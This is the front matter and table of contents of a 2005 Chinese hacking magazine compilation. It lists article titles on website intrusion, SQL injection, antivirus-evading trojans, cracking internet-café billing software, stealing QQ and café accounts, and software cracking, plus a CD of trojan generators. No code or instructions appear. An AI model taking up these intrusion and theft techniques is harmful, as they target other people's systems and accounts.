# 黑客X档案合订本2005年（上）第一部分

---

# 黑客X档案 2005 创刊本

### 《黑客X档案》畅销系列丛书 菜鸟 Hacker 进化录

### ▽ 菜鸟总动员

- 入侵传奇之狼之菜鸟篇
- 小菜鸟初闯肉鸡
- QQ 聊天款菜鸟工具
- 打造坚固的网吧
- 菜鸟入侵之网吧起飞
- 让菜鸟飞，地狱去吧！
- 入侵一条龙：菜鸟必备超酷工具大全综合
- 硬嘴悍攻菜鸟篇的屠龙刀
- 记一次“适当”的入侵
- 远程控制任我行之新版体验
- 利用 WebShell 进行挂马
- 绑定型肉鸡解密
- BBSXP？为什么受伤的总是我
- 菜鸟的最后一次入侵
- 反烧鸽英雄
- 时刻保护你的 Windows——Windows Watch Dog
- 密法破解之教你制作算法注册码
- 菜鸟暗宗之导谈 OEP
- 程序加壳破解动画
- 用 API 间接法获取 IP 地址
- 打造属于自己的防挂程序
- Sniffer 原来就是这么简单

### ▽ 经典漏洞回顾

- IIS w3who.dll ISAPI Overflow 漏洞代码抢先试用
- MS04-044 木马攻陷提升权限漏洞的利用
- MS04-045 WINS 远程代码执行漏洞利用
- MS05-002 漏洞实战
- Microsoft Windows MSHTA 组件执行漏洞
- Windows ASN.1 远程溢出漏洞突破

### ▽ 精彩内容一览

- 详解入侵经典模式图
- 菜鸟学飞
- ◎ 网站入侵常用模式之站长后门
- ◎ 网吧入侵实用模式之穿透式入侵
- 菜鸟的最一流利器之一：网管工具包
- 最新旁注远程完全体验
- HDSI 2.0 双刃彩虹大解说
- 解析 QQ 挂机替代软件
- 硬盘还原杀手——五虎将
- 全方位玩转网吧
- PUBWIN 破解之终结篇
- 网上最强零零一网吧免费上网篇
- 打造免杀的灰鸽子 2005
- PcShare2005 轻松搞定内网肉鸡
- 利用端口转向突破入侵
- Crack 杀毒步骤轻重攻略
- ◎ 研究实战解析之菜鸟爆破学篇
- ◎ 研究实战深入之病毒编写学篇
- 研究实战破解入侵之注册码编写教学篇
- ofstar 论坛中的致命漏洞分析和利用详解
- 利用 IIS 日志追查网站入侵者
- 菜鸟局域网络攻防篇
- NTRS 磁盘系统配置全攻略


### 光盘精彩内容



- ○ 极速漏洞扫描器
- ○ EXE 捆绑机 3.0
- ○ 四终结者——机时小偷 5.0
- ○ 网络分析利器 WinPcap 3.1
- ○ X-Scan v3.3
- ○ 肉鸡必备工具
- ○ 暴风雨黑客工具包 V1.5
- ○ Access 密码分析器 2005 教师节特别版
- ○ 局域网嗅探器 LAN Explorer 1.50
- ○ 美国恶草木马生成器 + 动画
- ○ 最新免杀网页木马生成器
- ○ 教程大全集电子版合集
- ○ 幻想游戏 4.2
- ○ 2005 东京电玩展现场 MM 视频
- ○ 张韶涵版《大长今》音乐 MTV
- ○ 《超级女声 终极 PK》专辑
- ○ 梁静茹《丝路》专辑
- ○ 后舍男孩搞笑视频



## 黑客X档案合订本

### 2005年（上卷）

做一本和读者站着看的杂志  
不让晦涩难懂天残地缺个性  
平民化 自由度 唯真性突破版

个人电脑《微型电脑》黑客版媒体：www.hackerxfiles.net




## 《黑客X档案》2005年合订本（上卷）

- 出版：吉林科学技术出版社
- 出品人：孙胜利
- 主编：杨东胜
- 编辑部主任：龚连成
- 编辑部：楚汉、sleky、虫虫、呆呆虫
- 光盘部：龚连成、丛林
- 美编：Bifrost
- 排版：石利武
- E-mail：hackerxfiles@263.net
- 邮购查询电话：010-88560080
- 联系电话：010-88561165
- 邮编：100037
- 定价：28.8元（双光盘+双图书）

**声明：**刊中所载文字及图片，版权所有，未经许可，不得转载。文章内容仅代表作者观点，与本刊立场无关。投稿于本刊的文章，均视为作者已授权本刊合作媒体的使用。我们支付的稿费已包含了授权相关资费。如有相关问题，请作者及时与我们联系。

## CONTENT

| 期号 | 标题 | 页码 | 期号 | 标题 | 页码 |
|---|---|---|---|---|---|

# 小鸡快跑

- 2005.1 肉鸡上文件传输四法 ...... 12
- 2005.1 条条大道通罗马——另类 Linux 大体验 ...... 13
- 2005.1 关于溢出 XP 后如何使用 ipc$——用命令建立无毒后门 ...... 14
- 2005.1 用二重代理上 QQ ...... 15
- 2005.1 QQ 视频聊天小窍门 ...... 15
- 2005.2 详解入侵经典模式图之四——攻击网络服务端口 ...... 16
- 2005.2 破解软件，用百度？ ...... 19
- 2005.2 玩转新版 QQ ...... 19
- 2005.2 找 QQ 网络硬盘的下载路径 ...... 20
- 2005.2 常用工具伸手可得 ...... 21
- 2005.2 打造个性化的 MSN Messenger ...... 21
- 2005.3 校园菜鸟进阶之上传文件 ...... 22
- 2005.3 Win9x 中几个鲜为人知的技巧 ...... 24
- 2005.3 让 QQ 群也成为我们的兵器库 ...... 24
- 2005.3 轻松查看他人 QQ 聊天内容 ...... 26
- 2005.3 QQ 之 IP 窥视高手 IpSniper ...... 27
- 2005.4 QQ2005 技巧大箩筐 ...... 28
- 2005.4 利用 QQ 邮箱再捉肉鸡 ...... 29
- 2005.4 精彩从头开始——收费 QQ 头像免费用 ...... 29
- 2005.4 玩转 QQ 强制聊天 ...... 30
- 2005.4 让你的 QQ 也减肥 ...... 31
- 2005.4 上传下载文件再简单 ...... 31
- 2005.5 网站入侵常用模式之上传漏洞 ...... 32
- 2005.5 QQ2005 贺岁版登录口令——加密算法破解实战 ...... 36
- 2005.6 网站入侵常用模式之数据库的入侵 ...... 37
- 2005.6 BT 让你肉鸡成群 ...... 42
- 2005.6 我的 QQ 地盘，我做主 ...... 43
- 2005.6 玩转 QQ 的小工具 ...... 44
- 2005.6 腾讯收费头像免费用 ...... 45

# 网吧黑客

- 2005.1 网吧下载文件随我来 ...... 47
- 2005.1 巧用复古法破解 PUBWIN4 管理员密码 ...... 47
- 2005.1 破解网吧 Pubwin 管理程序 ...... 48
- 2005.1 轻松绕过“万象网管2003”上网 ...... 49
- 2005.2 网络炒股管家之免费上网 ...... 50
- 2005.2 网吧硬盘解锁又一招 ...... 51
- 2005.2 让网管防不胜防 ...... 51
- 2005.2 再谈网吧破解 ...... 51
- 2005.2 向“禁止”说不 ...... 52
- 2005.3 Windows 按钮突破专家——大闹无盘网吧 ...... 52
- 2005.3 盗取网吧会员账号又一法 ...... 53
- 2005.3 重返战场之网吧篇 ...... 54
- 2005.3 注册表中挖掘网络炒股管家 ...... 55
- 2005.4 突破网吧的限制 ...... 56
- 2005.4 登录加薪被网管 ...... 57
- 2005.4 网络炒股管家之免费上网终结篇 ...... 58
- 2005.4 我的 PUBWIN 破解经历 ...... 59
- 2005.5 网吧存在的安全隐患 ...... 60
- 2005.5 PubWin4 充钱大法 ...... 61
- 2005.5 硬盘还原卡解密“五虎将” ...... 61
- 2005.5 网吧里轻松免费挂 QQ ...... 62
- 2005.6 全方位玩转网吧 ...... 63
- 2005.6 突破网管限制 ...... 64
- 2005.6 PUBWIN 破解之总结篇 ...... 65
- 2005.6 史上最强——网吧免费上网篇 ...... 67

### 俊哥黑客

- 2005.1 终端服务之暴力破解篇 ...... 70
- 2005.1 让 98 成为 2k 的恶梦 ...... 71
- 2005.1 永久个性化你的 cmd ...... 72
- 2005.1 打造自己的“启动”目录 ...... 72
- 2005.1 黑客的障眼法——捆绑器 ...... 73
- 2005.1 光驱“隐身”几妙法 ...... 74
- 2005.1 遗忘 Foxmail 密码，也不怕 ...... 76
- 2005.1 对 KV2005“精兵简政” ...... 77
- 2005.1 解除 Outlook 与 MSN 之间的捆绑 ...... 77
- 2005.1 恢复 Windows XP 系统管理员密码小妙招 ...... 78
- 2005.1 清除系统中可能泄密的软件使用信息 ...... 79
- 2005.1 小心！危机四伏的 Svchost 进程 ...... 80
- 2005.1 天网防火墙另类应用小妙招 ...... 82
- 2005.1 Serv-U 突破又一法 ...... 83
- 2005.1 狙击 4899 肉鸡 ...... 84
- 2005.2 让你的 XP 多系统启动菜单与众不同 ...... 88
- 2005.2 给 Windows 增加一个开机口令 ...... 89
- 2005.2 屏蔽 Windows XP 的“设定程序访问和默认值”功能 ...... 90
- 2005.2 将批处理文件转换成 exe 文件 ...... 91
- 2005.2 浩方升级妙招 ...... 91
- 2005.2 一劳永逸屏蔽 ActiveX 插件 ...... 91
- 2005.2 手写注册表 DIY ...... 92
- 2005.2 让虚拟机也上网冲浪 ...... 93
- 2005.2 进程管理好帮手——Process Explorer ...... 94
- 2005.2 巧修改 DLL 文件焕然一新你的 Outlook ...... 96
- 2005.2 搭建动态 IP 与域名之间的桥梁 ...... 96
- 2005.2 浅析服务器与启动 ...... 97
- 2005.2 我用 NBSI 咬了 FreePower 一口 …… 98
- 2005.2 Ipsecpol 的规则脚本编写 …… 99
- 2005.2 在线服务在黑客技术中的妙用 …… 100
- 2005.3 “牧鸽”扫描新秀——Ipeye …… 101
- 2005.3 随心邮件炸弹——邮件服务器的噩梦 …… 103
- 2005.3 非管理员身份如何自由运行软件 …… 104
- 2005.3 TFTP 陷阱 …… 104
- 2005.3 了解你的网络状况——网络测试之 Qcheck 篇 …… 105
- 2005.3 手工清理 QQ 密码杀手 …… 106
- 2005.3 菜鸟的黑客利器——啊D网络工具包 …… 106
- 2005.3 你收到的文件安全吗？ …… 108
- 2005.3 ACDSee 也改文件时间戳 …… 108
- 2005.3 系统进程管理利器——esteem procs …… 109
- 2005.3 关于 BlackICE 防火墙的有趣小发现 …… 109
- 2005.3 系统安全保护神——终极防线 …… 110
- 2005.3 安全小精灵——筑巢精灵 …… 111
- 2005.3 偷梁换柱巧绕密码——玩转 Radmin 之另类手法 …… 111
- 2005.4 让你的 Office 文档从此不再泄密 …… 113
- 2005.4 安全使用剪贴板 …… 113
- 2005.4 Chinaren 校友录班级相册随你看 …… 114
- 2005.4 几种流行 QQ 尾巴的清除办法 …… 114
- 2005.4 几秒钟把你的硬盘填满 …… 115
- 2005.4 万花丛中过，片叶不沾身——文件隐藏新工具“加密奇兵” …… 116
- 2005.4 远程遥控下载利器——Download2Home …… 117
- 2005.4 让注册表编辑器“失忆” …… 117
- 2005.4 GHOST 备份教程 + 135 端口的另类关闭 …… 118
- 2005.4 远程遥控你的电脑 …… 119
- 2005.4 网络冲浪“隐身”利器——Steganos Internet Anonym Pro 7 …… 120
- 2005.4 命令行下的文件传输总结 …… 122
- 2005.4 作曲任我下载 …… 123
- 2005.4 轻松玩转 Red Hat Linux 9.0 …… 124
- 2005.5 最新旁注工具完全体验 …… 128
- 2005.5 鼠标一晃，痕迹全无 …… 130
- 2005.5 这样的马，怎能白白放了它？——反追踪行动中嗅探技术的应用 …… 131
- 2005.5 我的 Google 我做主 …… 132
- 2005.5 Guest 用户攻与防 …… 134
- 2005.5 斩断黑手的冰刃 …… 135
- 2005.5 不被查杀的代理服务器是这样炼成的 …… 137
- 2005.5 另类后门——Serv-U 下的后门 …… 138
- 2005.5 加密数据库的克星：CrackAccess 1.2 …… 139
- 2005.5 浅谈终端服务引起的故障——应 2004 年 8 月号《问题征解》 …… 140
- 2005.5 解剖冰舞 2.5 …… 141
- 2005.6 穿透 TCP/IP 筛选和防火墙——HTTPTunnel …… 143
- 2005.6 穿过 XP SP2 的防火墙入侵 …… 145
- 2005.6 HDSI 2.0X 版详细大解说 …… 146
- 2005.6 防火墙后面的脆弱 …… 149
- 2005.6 菜鸟学技术，工具组合很重要 …… 150
- 2005.6 检测捆绑文件的好方法 …… 151
- 2005.6 用 WINPE 更改 WIN2K 或 WINXP 管理员密码 …… 151
- 2005.6 从 QQ 悟出的绝世剑法——又一开机自启动方法的发现及利用 …… 152
- 2005.6 利用 AccessDiver 破解收费网站会员 …… 154
- 2005.6 菜鸟黑站最新工具——Webhunter 小记 …… 155
- 2005.6 黑软恶搞篇 for X-Scan v3.2 …… 156

# 牧马记

- 2005.1 木马常见植入技术大剖析 …… 158
- 2005.1 自己丰衣足食——菜鸟制作木马的旅程 …… 161
- 2005.2 让木马躲过瑞星 2005 的“追杀” …… 162
- 2005.2 李代桃僵——启动木马的小花招 …… 163
- 2005.2 新年的天空又来“灰鸽子” …… 164
- 2005.2 简单的 CGI 后门 …… 164
- 2005.3 实战 rmtSvc & vIDC 后门 …… 166
- 2005.3 国外的迷你木马 Flux …… 167
- 2005.4 封杀木马、病毒启动系统服务的权限 …… 169
- 2005.4 脚本木马之虚拟主机防护篇 …… 170
- 2005.4 打造免杀的灰鸽子 2005 …… 172
- 2005.4 小议 php 后门的脚本变形 …… 174
- 2005.5 打造 X 档案专版冰河 …… 175
- 2005.5 详解黑洞 2005 …… 177
- 2005.5 蓝屏木马存在严重漏洞 …… 180
- 2005.6 实战灰鸽子 2005 客户端脱壳 …… 181
- 2005.6 PcShare2005 轻松搞定内网肉鸡 …… 182
- 2005.6 打造完美的远程控制 …… 184
- 2005.6 巧妙提升冰狐浪子 ASP 木马权限 …… 185

# 神秘园

- 2005.1 Crack 菜鸟阶段高级篇——TTT 女子破解小组之菜鸟爆破教学篇 …… 187
- 2005.1 巧破 Tegoweb …… 190
- 2005.1 寻“打字高手”万能密码 …… 191
- 2005.2 彻底破解女孩子日记本 …… 193
- 2005.2 破解加密光盘 …… 194
- 2005.2 静劲皆风云 …… 196
- 2005.2 打造终极破解 …… 197

## CONTENT

| 期号 | 标题 | 页码 | 期号 | 标题 | 页码 |
|---|---|---|---|---|---|

- 2005.2 破解 Alcohol 120% …… 200
- 2005.3 按键精灵 2.65 正式版破解一条龙 …… 202
- 2005.3 菜鸟破解实战之用 OllyDbg 突破 OCX …… 205
- 2005.3 Crack 菜鸟阶段晋级篇——IT 女子破解小组之注册码追击教学篇 …… 208
- 2005.3 突发奇想之完美爆破 …… 211
- 2005.3 破解瑞星安装文件 …… 212
- 2005.4 Rwx2005 内存注册机制作全攻略 …… 213
- 2005.4 对抗 W32Dasm 之雕虫小技 …… 214
- 2005.4 Cracker 组合招式之轻松突破时间限制初级篇 …… 215
- 2005.4 亿唯 E 书破解记 …… 217
- 2005.4 莽“父”鉴定——反 OllyDbg 调试一法 …… 219
- 2005.5 Cracker 组合招式之轻松突破时间限制高级篇 …… 220
- 2005.5 轻松破解“QQ 聊天记录终结者 V4.0” …… 221
- 2005.5 我是这样 Crack 的 …… 222
- 2005.5 破解高强度文件夹加密大师 …… 225
- 2005.6 Cracker 组合招式之轻松突破光盘隐藏技术 …… 226
- 2005.6 Crack 菜鸟阶段晋级篇——IT 女子破解小组之注册码编写教学篇 …… 227
- 2005.6 菜鸟也要突破 OCX——逃归静态破解法 …… 228

# 黑客人物面对面

- 2005.1 邪恶八进制安全小组之冰血封情 …… 231
- 2005.2 中国年龄最小的黑客高手——wolfboy …… 232
- 2005.3 曾经的枫三少 …… 234
- 2005.4 20NT 网络安全小组——浪心 …… 235
- 2005.5 中国黑客联盟（C.H.U）Snakebin 采访记 …… 237
- 2005.6 中国黑客发展的阳光大道 …… 238

# 侠隐仙踪

- 2005.1 黑客行 …… 242
- 2005.2 黑的代价 …… 244
- 2005.3 2个黑客和一个菜鸟 …… 246
- 2005.3 午夜凶铃 …… 247
- 2005.4 菜鸟江湖之师与徒 …… 247
- 2005.5 不需要后悔的入侵 …… 249
- 2005.6 黑客与女孩之网络情缘 …… 250

### 一个人的战争

- 2005.1 我的一次入侵总结 …… 253
- 2005.1 “艰难”的肉鸡夺回战争 …… 254
- 2005.1 局域网大入侵 …… 255
- 2005.1 渗透电信话费查询系统 …… 257
- 2005.1 一次针对一个大学网站的入侵手记 …… 258
- 2005.1 一次郁闷但有趣的报复性渗透 …… 259
- 2005.1 用 MySQL 备份得到 WebShell …… 261
- 2005.2 不一样的上传 …… 264
- 2005.2 MS04-045 WINS 远程代码执行漏洞的利用 …… 265
- 2005.2 IIS w3who.dll ISAPI Overflow 漏洞抢先试用 …… 266
- 2005.2 一次艰苦的 6 个小时的渗透过程 …… 267
- 2005.2 我的曲折 INJECTION 行动 …… 269
- 2005.2 Linux 下的旁注入侵 …… 270
- 2005.2 MS04-044 本地权限提升漏洞的利用 …… 272
- 2005.2 山穷水尽的突破——对 load_file() 的利用 …… 274
- 2005.2 随着“动感”入侵购物系统 …… 275
- 2005.3 “盗”也要“盗”的精彩——从飞龙文章系统上传漏洞到系统管理员的飞跃 …… 277
- 2005.3 MS05-002 漏洞大体验 …… 278
- 2005.3 bo-blog 存在的极大安全隐患 …… 280
- 2005.3 菜鸟入侵目标网站 …… 281
- 2005.3 偷梁换柱绕过 MD5 …… 282
- 2005.3 ASP 系统架库小技巧 …… 283
- 2005.3 雪石厨房插件漏洞 for Dvbbs 7.0 sp2 …… 284
- 2005.3 炸开 L-BLOG 程序大门 …… 285
- 2005.3 为母校做个安全检测 …… 287
- 2005.4 窃取黑手的果实 …… 289
- 2005.4 MYBBS 年纪小漏洞可不小 …… 291
- 2005.4 在 phpwind 论坛里潜藏的威胁 …… 292
- 2005.4 bbsxp5.11 版本暴库加上传 ASP 木马 …… 294
- 2005.4 蓝色伊人日志本漏洞分析 …… 295
- 2005.4 利用端口转向深度入侵内网 …… 295
- 2005.4 ccproxy6.2 最新远程溢出漏洞分析 …… 297
- 2005.4 从实例看 SQL 注入原理 …… 299
- 2005.4 Asp.net + Oracle 下的注入漏洞的利用 …… 302
- 2005.5 Microsoft Windows MSHTA 脚本执行漏洞（MS05-016）测试过程 …… 303
- 2005.5 探究 BBSXP 的漏洞 …… 305
- 2005.5 对某杀毒软件公司网站的一次渗透 …… 308
- 2005.5 被遗忘的利刃 …… 311
- 2005.5 爱线交友网站大入侵 …… 312
- 2005.5 利用跨站从 bo-blog 得到 WebShell …… 314
- 2005.5 小菜也来手工破解电影网站 …… 316
- 2005.5 FLASH 跨站攻击 …… 317
- 2005.5 入侵亦如取西经 …… 318
- 2005.6 Discuz! 跨站也精彩 …… 319
- 2005.6 八天——漫长的渗透 …… 322
- 2005.6 换个思路来入侵 …… 325

## 目录

- 2005.6 Solaris 9系统入侵与权限保持 …… 327
- 2005.6 入侵网站赚我来 …… 330
- 2005.6 一波三折的入侵 …… 332
- 2005.6 Windows ASN.1 远程溢出漏洞实战 …… 333
- 2005.6 国际域名争霸战 …… 334
- 2005.6 非常防火墙——Look 'n' Stop …… 399

### 黑客研究院

- 2005.1 PHPWIND 1.3.6论坛漏洞分析 …… 336
- 2005.1 菜鸟也玩LINUX——brk()漏洞重提 …… 338
- 2005.1 “中间人攻击”小揭秘 …… 340
- 2005.1 FlashFXP的另类用法——使用FlashFXP来提升权限 …… 342
- 2005.1 CTB 1.73不算漏洞的漏洞 …… 343
- 2005.2 SQL注入快捷环境搭建 …… 343
- 2005.2 Serv-U的终极利用——直接修改配置文件篇 …… 345
- 2005.2 伪装欺骗利用高手——目录欺骗工具 …… 348
- 2005.2 利用CommView实现本地和远程密码嗅探 …… 349
- 2005.2 Linux启动安全最大化 …… 351
- 2005.3 ofstar论坛的致命漏洞分析和利用详解 …… 353
- 2005.3 WEB入侵——表单提交在入侵中的作用 …… 354
- 2005.3 完美的加密方式 …… 356
- 2005.3 江苏移动——你的地盘我做主 …… 357
- 2005.3 dvbbs的跨站和欺骗技巧 …… 359
- 2005.4 Discuz! 2.5F上传的安全隐患 …… 360
- 2005.4 巧用Win2k个性化设计隐藏服务器 …… 361
- 2005.4 小心！CCProxy权限继承 …… 362
- 2005.4 打造安全的sudo规则 …… 363
- 2005.4 隐藏php后门技巧终极篇 …… 364
- 2005.5 全面剖析“收费网站——VIP会员专区” …… 365
- 2005.5 DDoS的攻击手段与对策 …… 369
- 2005.6 BBSXP漏洞再探究 …… 370
- 2005.6 Linux黑客后门较量——从入侵角度看问题 …… 375

### 黑客编程

- 2005.1 Linux安全攻略——僵尸进程 …… 403
- 2005.2 狗屁软翅之再谈逆向工程打造隐藏的后门 …… 405
- 2005.2 Linux下文件另类加密技巧 …… 407
- 2005.3 菜鸟也玩shellcode …… 408
- 2005.4 通过ASP实现SQL数据库的远程备份和恢复 …… 412
- 2005.4 用VB编写刷QQ等级的软件 …… 413
- 2005.4 C++黑客编程基础之多线程端口扫描 …… 414
- 2005.4 逆向工程之——菜鸟的先进程无硬盘文件无服务无启动项后门 …… 415
- 2005.5 我的shellcode双语学习日记 …… 418
- 2005.6 一夫当关，万夫莫开——ASP.net帮你阻挡SQL Injection攻击 …… 422
- 2005.6 浅析黑客X档案论坛注册码验证不严漏洞 …… 424

### 毒荟

- 2005.6 艰难的杀毒历程 …… 427
- 2005.4 i-worm.jeans.a 炒作尽头带来的思考 …… 428

### 主题乐园

- 2005.1 Theta 2配置和使用详解 …… 430
- 2005.1 凶悍的鸽兽 …… 433
- 2005.1 又一款国产超强木马——神气儿2.0 …… 437
- 2005.1 重返自己的战场——浅谈LINUX下的后门技术 …… 440
- 2005.2 蜜罐全接触 …… 442
- 2005.3 菜鸟后门编写步步高 …… 454
- 2005.6 NTFS磁盘系统配置全攻略 …… 468
- 2005.6 我的IE我做主：详解IE安全应用 …… 475
- 2005.6 瞬间转移——CMD下快速进入任意目录 …… 480

### 安全第一

- 2005.1 网络安全高手——Prevx Home …… 378
- 2005.1 把好共享文件的“大门” …… 380
- 2005.1 Windows 2003安全设置指南 …… 381
- 2005.1 看护住你的80端口 …… 384
- 2005.2 查杀木马新“利器”——上网助手之反间谍专家 …… 385
- 2005.2 超酷工具——EasyRecovery …… 387
- 2005.2 直捣后门软肋——wininterrogate …… 388
- 2005.2 网上冲浪安全保护神——AOF个人防火墙 …… 389
- 2005.3 Windows日志的保护 …… 390
- 2005.3 棒杀Windows默认共享五招式 …… 393
- 2005.3 利用IIS日志追查网站入侵者 …… 395
- 2005.4 微软之反谍软件AntiSpyware …… 396
- 2005.5 浏览网页也要自由 …… 398

### 特别主题乐园

## 菜鸟电脑成员

### 新手入门

- 4 QQ的两款杀马工具
- 7 菜马油炸QQ
- 8 带色彩的网吧
- 12 让人入侵让网吧起哄
- 17 论坛灌水之我灌，我灌灌灌
- 19 破解文件夹加密的屠龙刀
- 22 小菜鸟和他的肉鸡
- 24 巧妙利用Flashget制造点资源管理器入侵
- 27 入侵一条龙——菜马必备超强工具大集合
- 38 杀毒软件Kill不能下载特征码的解决方法
- 40 危险，正当的入侵
- 46 让动网飞地远去吧！

### 黑客论坛

- 48 反弹木马岂能只玩火鸡？
- 54 远程控制往来何在之新版体验
- 57 打造专业版网页木马生成器
- 61 利用WEBShell来进行挂马
- 61 隐藏木马的绝佳方法

### 黑暗中的舞者

- 69 入侵传奇私服之菜鸟篇
- 72 菜鸟的最后一次入侵
- 76 就这样把肉鸡搞定
- 80 BBSXP——为什么受伤的总是我
- 86 Bo-blog：教你直接得到WebShell
- 89 更玩转SP2版的BBSXP
- 96 意外的入侵
- 100 虚拟主机系统——你做安全主管吗？

### 安全三周

- 107 反米精英传
- 110 时刻保护你的Windows——Windows Watch Dog
- 123 查找恶意程序的好帮手——木马辅助查找器

### 破解的盾牌

- 126 破解免杀付费版任我行
- 129 算法逆推之教你制作算法注册码
- 133 速写大盗V2.0破解及注册机制作全攻略
- 136 菜鸟脱壳之寻找OEP
- 139 侦屏拆迁破动画

### 普通的代码

- 143 用API函数轻松获取IP地址
- 147 打造属于自己的防毒程序
- 152 Sniffer，原来就是这么简单
- 159 自己编程也强劲

